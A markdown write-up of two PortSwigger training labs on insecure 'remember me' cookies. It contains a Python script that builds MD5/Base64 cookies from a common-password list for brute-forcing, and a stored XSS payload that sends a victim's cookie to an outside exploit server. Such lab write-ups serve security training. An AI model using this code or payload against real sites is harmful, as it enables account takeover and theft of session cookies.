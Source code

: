 ```yaml
---
tags: ["cookie", "stay logged in"]
image: "img/Portswigger/authentication.png"
---
```


## Keeping users logged in

A common feature is the option to stay logged in even after closing a browser session. This is usually a simple checkbox labeled something like "Remember me" or "Keep me logged in".

This functionality is often implemented by generating a "remember me" token of some kind, which is then stored in a persistent cookie. As possessing this cookie effectively allows you to bypass the entire login process, it is best practice for this cookie to be impractical to guess. However, some websites generate this cookie based on a predictable concatenation of static values, such as the username and a timestamp. Some even use the password as part of the cookie. This approach is particularly dangerous if an attacker is able to create their own account because they can study their own cookie and potentially deduce how it is generated. Once they work out the formula, they can try to brute-force other users' cookies to gain access to their accounts.

Some websites assume that if the cookie is encrypted in some way it will not be guessable even if it does use static values. While this may be true if done correctly, naively "encrypting" the cookie using a simple two-way encoding like Base64 offers no protection whatsoever. Even using proper encryption with a one-way hash function is not completely bulletproof. If the attacker is able to easily identify the hashing algorithm, and no salt is used, they can potentially brute-force the cookie by simply hashing their wordlists. This method can be used to bypass login attempt limits if a similar limit isn't applied to cookie guesses.

## Lab: Brute-forcing a stay-logged-in cookie

--> This website is storing the password in the `stay-logged-in` cookie in the encrypted form.

So we have to pass this request to intruder and then brute force the `stay-logged-in` cookie for `carlos` user

![](Attachments/Pastedimage20220204131145.png)

--> but first we have to logout because it will redirect us to this page only if we are logged in without checking the cookie.

And to encrypt the passwords according to cookie logic i made one python script:

```py
import hashlib
import base64

passwords = ["123456","password","12345678","qwerty","123456789","12345","1234","111111","1234567","dragon","123123","baseball","abc123","football","monkey","letmein","shadow","master","666666","qwertyuiop","123321","mustang","1234567890","michael","654321","superman","1qaz2wsx","7777777","121212","000000","qazwsx","123qwe","killer","trustno1","jordan","jennifer","zxcvbnm","asdfgh","hunter","buster","soccer","harley","batman","andrew","tigger","sunshine","iloveyou","2000","charlie","robert","thomas","hockey","ranger","daniel","starwars","klaster","112233","george","computer","michelle","jessica","pepper","1111","zxcvbn","555555","11111111","131313","freedom","777777","pass","maggie","159753","aaaaaa","ginger","princess","joshua","cheese","amanda","summer","love","ashley","nicole","chelsea","biteme","matthew","access","yankees","987654321","dallas","austin","thunder","taylor","matrix","mobilemail","mom","monitor","monitoring","montana","moon","moscow"]

converted = []
for password in passwords:
	hash_object = hashlib.md5(password.encode())
	md5_hash = hash_object.hexdigest()
	md5_hash = str(md5_hash)
	myCookie = "carlos:"
	myCookie += md5_hash
	convert_b64_bytes = myCookie.encode('ascii')
	base64_bytes = base64.b64encode(convert_b64_bytes)
	base64_string = base64_bytes.decode("ascii")
	base64_string = str(base64_string)

	converted.append(base64_string)

for word in converted:
	print(word)



# sample_string = "GeeksForGeeks is the best"
# sample_string_bytes = sample_string.encode("ascii")

# base64_bytes = base64.b64encode(sample_string_bytes)
# base64_string = base64_bytes.decode("ascii")
```

--> After running the python file i got all the encoded_cookies so now just we have to brute force them!

And after some time i found the correct cookie which gave us `200` status code!

![](Attachments/Pastedimage20220204131645.png)

And we solved the lab!

![](Attachments/Pastedimage20220204130542.png)

---

Even if the attacker is not able to create their own account, they may still be able to exploit this vulnerability. Using the usual techniques, such as [XSS](https://portswigger.net/web-security/cross-site-scripting), an attacker could steal another user's "remember me" cookie and deduce how the cookie is constructed from that. If the website was built using an open-source framework, the key details of the cookie construction may even be publicly documented.

In some rare cases, it may be possible to obtain a user's actual password in cleartext from a cookie, even if it is hashed. Hashed versions of well-known password lists are available online, so if the user's password appears in one of these lists, decrypting the hash can occasionally be as trivial as just pasting the hash into a search engine. This demonstrates the importance of salt in effective encryption.

# Lab: Offline password cracking

This lab stores the user's password hash in a cookie. The lab also contains an XSS vulnerability in the comment functionality. To solve the lab, obtain Carlos's `stay-logged-in` cookie and use it to crack his password. Then, log in as `carlos` and delete his account from the "My account" page.

- Your credentials: `wiener:peter`
- Victim's username: `carlos`

--> So first i logged in as `wiener` and then i found that we can comment on any post so i opened one post and commented the stored XSS payload :

```markup
<script>document.location='//exploit-acc81fe51e0eddf3c0598bf601660076.web-security-academy.net/'+document.cookie</script>
```

![](Attachments/Pastedimage20220204143051.png)

--> After posting the comment i went to `exploit server` and then went to `access logs` and found the cookie of `carlos`

![](Attachments/Pastedimage20220204143159.png)

--> After decoding the cookie from `base64` and `md5` i found the password as `onceuponatime` and i logged in as `carlos` and now we have to delete the account of carlos so click on delete account

![](Attachments/Pastedimage20220204134737.png)

--> It will ask for password, click `delete account!`

![](Attachments/Pastedimage20220204134800.png)

And we solved the lab!
